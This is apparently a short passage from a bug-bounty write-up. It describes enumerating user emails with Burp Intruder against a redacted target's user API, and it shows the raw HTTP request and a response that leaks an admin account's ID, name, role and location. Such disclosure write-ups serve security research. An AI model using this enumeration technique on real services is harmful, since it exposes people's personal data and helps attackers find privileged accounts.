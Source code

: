 I made a list and sent it to intruder and checked the content lenght, luckily few of them are valid.

## Verify User

### Request
```http
GET /api/v1/user?email=ba████████@target.com HTTP/2
Host: www.target.com
Cookie: blah...blah...blah...
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/111.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://www.target.com/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: iframe
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: cross-site
Te: trailers
```

### Response
```http
HTTP/1.1 200 OK 
Date: Wed, 29 Mar 2023 05:59:48 GMT 
X-Powered-By: Express 
Access-Control-Allow-Origin: * 
Content-Type: application/json; charset=utf-8 
Content-Length: 370 ETag: W/"172-rQhbOJIDRtY57xxDgEWDAhUpziE" 
Set-Cookie: ; Path=/; HttpOnly 
X-Frame-Options: SAMEORIGIN 
X-Content-Type-Options: nosniff 
X-XSS-Protection: 1; mode=block 
Referrer-Policy: strict-origin-when-cross-origin 
Connection: close 
Strict-Transport-Security: max-age=31536000; includeSubDomains

{
  "status": true,
  "message": "Successfully Retrieved",
  "result": [
    {
      "UserId": 10██,
  "EmailId": "ba████████@target.com",
      "RegionId": [
        300,
        300
      ],
      "RegionName": "NA",
      "RoleId": 100,
      "RoleName": "Admin",
      "CountryId": 200,
      "CountryName": "United States",
      "Status": "Approved",
      "Name": "Bane Smith",
      "DeliveryCentre": "New York, United States",
      "IsActive": true,
      "SubProcess": "null"
    }
  ]
}
```
